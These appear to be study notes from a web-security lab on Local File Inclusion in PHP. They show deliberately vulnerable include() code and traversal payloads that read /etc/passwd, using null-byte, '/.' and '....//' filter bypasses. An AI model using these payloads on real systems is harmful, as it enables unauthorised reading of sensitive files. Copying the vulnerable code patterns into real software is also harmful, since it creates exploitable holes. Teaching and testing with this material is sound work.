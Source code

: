 ## Introduction
- LFI attacks against web applications are often due to a developers' lack of security awareness. With PHP, using functions such as include, require, include_once, and require_once often contribute to vulnerable web applications.
- LFI vulnerabilities also occur when using other languages such as ASP, JSP, or even in Node.js apps.

### we will walk you through various LFI scenarios and how to exploit them
1. Suppose the web application provides two languages, and the user can select between the EN and AR
```php
<?PHP 
	include($_GET["lang"]);
?>
```
- The PHP code above uses a GET request via the URL parameter lang to include the file of the page.
- The call can be done by sending the following HTTP request as follows: http://webapp.thm/index.php?lang=EN.php[](http://webapp.thm/index.php?lang=EN.php) to load the English page or http://webapp.thm/index.php?lang=AR.php to load the Arabic page, where EN.php and AR.php files exist in the same directory.
- Let's say we want to read the /etc/passwd file, which contains sensitive information about the users of the Linux operating system, we can try the following: http://webapp.thm/get.php?file=/etc/passwd
- In this case, it works because there isn't a directory specified in the include function and no input validation.

2. Next, In the following code, the developer decided to specify the directory inside the function.
```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```
- In the above code, the developer decided to use the include function to call PHP pages in the languages directory only via lang parameters.
- If there is no input validation, the attacker can manipulate the URL by replacing the lang input with other OS-sensitive files such as /etc/passwd.
- Again the payload looks similar to the path traversal, but the include function allows us to include any called files into the current page. The following will be the exploit:
```php
http://webapp.thm/index.php?lang=../../../../etc/passwd
```

## Scenario-2
- In this scenario, we have the following entry point: http://webapp.thm/index.php?lang=EN. If we enter an invalid input, such as THM, we get the following error.
```php
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
- The error message discloses significant information. By entering THM as input, an error message shows what the include function looks like:  include(languages/THM.php);.
**Note** - If you look at the directory closely, we can tell the function includes files in the languages directory is adding  .php at the end of the entry.

1. To exploit this, we need to use the ../ trick, as described in the directory traversal section, to get out the current folder. Let's try the following:
```php
http://webapp.thm/index.php?lang=../../../../etc/passwd
```

2. Note that we used 4 ../ because we know the path has four levels /var/www/html/THM-4. But we still receive the following error:
```php
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
It seems we could move out of the PHP directory but still, the include function reads the input with .php at the end! This tells us that the developer specifies the file type to pass to the include function.

3. To bypass this scenario, we can use the NULL BYTE, which is %00.
- Using null bytes is an injection technique where URL-encoded representation such as %00 or 0x00 in hex with user-supplied data to terminate strings. You could think of it as trying to trick the web app into disregarding whatever comes after the Null Byte.

4. By adding the Null Byte at the end of the payload, we tell the  include function to ignore anything after the null byte which may look like:
```php
include("languages/../../../../../etc/passwd%00").".php"); which equivalent to → include("languages/../../../../../etc/passwd");
```
**NOTE: the %00 trick is fixed and not working with PHP 5.3.4 and above.**
![[file_inclusion7.png]]

## Scenario-3
** In this section, the developer decided to filter keywords to avoid disclosing sensitive information! The /etc/passwd file is being filtered.**
#### There are two possible methods to bypass the filter:
1. First, by using the NullByte %00.
The exploit will be similar to http://webapp.thm/index.php?lang=/etc/passwd%00.

2. the current directory trick at the end of the filtered keyword `/.`
The exploit will be similar to http://webapp.thm/index.php?lang=/etc/passwd/.

**Second step in simple terms** - 
- To make it clearer, if we try this concept in the file system using cd .., it will get you back one step; however, if you do cd ., It stays in the current directory.
- Similarly, if we try  /etc/passwd/.., it results to be  /etc/ and that's because we moved one to the root.  Now if we try  /etc/passwd/., the result will be  /etc/passwd since dot refers to the current directory.
![[file_inclusion8.png]]

## Scenario-4
**the developer starts to use input validation by filtering some keywords. Let's test out and check the error message!**
```php
http://webapp.thm/index.php?lang=../../../../etc/passwd
```
We got the following error!
```php
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```
If we check the warning message in the include(languages/etc/passwd) section, we know that the web application replaces the ../ with the empty string.

#### There are a couple of techniques we can use to bypass this.
1. First, we can send the following payload to bypass it: ....//....//....//....//....//etc/passwd

**Why did this work?**
This works because the PHP filter only matches and replaces the first subset string ../ it finds and doesn't do another pass, leaving what is pictured below.
![[file_inclusion9.png]]

![[file_inclusion10.png]]

## Scenario-5
**Finally, we'll discuss the case where the developer forces the include to read from a defined directory**
For example, if the web application asks to supply input that has to include a directory such as: http://webapp.thm/index.php?lang=languages/EN.php

#### Exploitation can be done as shown below:
then, to exploit this, we need to include the directory in the payload like so: ?lang=languages/../../../../../etc/passwd.
![[file_inclusion11.png]]
